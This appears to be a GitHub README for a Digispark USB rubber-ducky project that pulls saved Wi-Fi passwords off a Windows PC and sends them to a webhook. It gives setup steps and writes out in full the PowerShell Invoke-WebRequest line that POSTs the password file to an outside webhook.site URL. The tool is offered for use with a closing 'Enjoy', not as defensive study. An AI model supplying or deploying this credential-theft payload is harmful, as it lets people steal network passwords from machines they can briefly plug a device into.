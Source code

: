 # wifi-grabber-ducky
USB rubber ducky that grabs saved wifi password from pc and sends into a webhook site. This is inspired from Cyber Mentor's [video](https://www.youtube.com/watch?v=uH-4btjE56E&t=248s).

## Requirements
 - [Digispark USB Development Board Attiny85](https://circuit.rocks/products/digispark-usb-development-board-attiny85)
 - [Arduino IDE](https://www.arduino.cc/en/software/)

## Usage
 1. Go to [Webhook Site](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://webhook.site/&ved=2ahUKEwiK_6b4y5GFAxURyzgGHd0CDaAQFnoECAcQAQ&usg=AOvVaw1m2b3mmqgLIDfWa5YwqIcy).
 2. Copy the *Unique URL*.
    
    ![image](https://github.com/meezlung/wifi-grabber-ducky/assets/65329581/ed3473b1-9af0-492e-96c8-1e8847e36edd)
    
 3. Download *wifi-key-grab.ino* file and edit it using Arduino IDE.
 4. In line 42 or in the line of code below, change the webhook url to your unique URL.
  ```
  DigiKeyboard.println("powershell Invoke-WebRequest -Uri https://webhook.site/2265df61-338c-470f-a0ec-0f6011dc9a16 -Method POST -InFile Wi-Fi-PASS"); //Submitting all passwords on hook
  ```
 5. Once set, compile your program in Arduino IDE.
 6. Plug in your DigiSpark USB, then upload the program.
 7. Enjoy.

## Demo
![wifi-key-grabber-demo](https://github.com/meezlung/wifi-grabber-ducky/assets/65329581/26b95e26-6afd-4644-bdf3-ad73d0abc26b)
